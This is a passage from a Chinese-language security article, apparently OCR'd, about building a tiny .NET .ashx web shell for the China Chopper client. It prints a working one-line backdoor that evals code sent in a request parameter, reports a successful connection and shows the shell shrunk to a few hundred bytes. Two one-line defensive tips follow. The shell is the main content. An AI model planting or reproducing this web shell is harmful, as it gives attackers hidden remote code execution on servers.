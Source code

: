 对于.NET平台的应用程序默认连接后发送的可执行字符串是Response.Write，而这样的输出需要继承的对象是Page类，所以至今为止，在菜刀的层面.NET下仅支持ASPX，再来看一般处理程序中已经继承了HttpContext对象实例化后的变量context，由此可以构造出

| var I = context; var Request = I.Request; var Response = I.Response; var Server = I.Server; eval(context.Request["Ivan"]); |
|----------------------------------------------------------------------------------------------------------------------------|


修改好后用菜刀连接成功，如下图

![](media/42d1d251ae955f3cc5ab7a437693dd2d.png)

基于优化考虑将HandlerSpy.ashx进一步压缩体积后只有531字节，而AsyncHandlerSpy.ashx也才719字节。

![](media/8036893ca2b8ca6a79b9ad70a77963e8.png)

0x05 防御措施
=============

1.  通过菜刀连接的方式，添加可以检测菜刀关键特征的规则；

2.  对于Web应用来说，尽量保证代码的安全性；

0x06 小结
=========
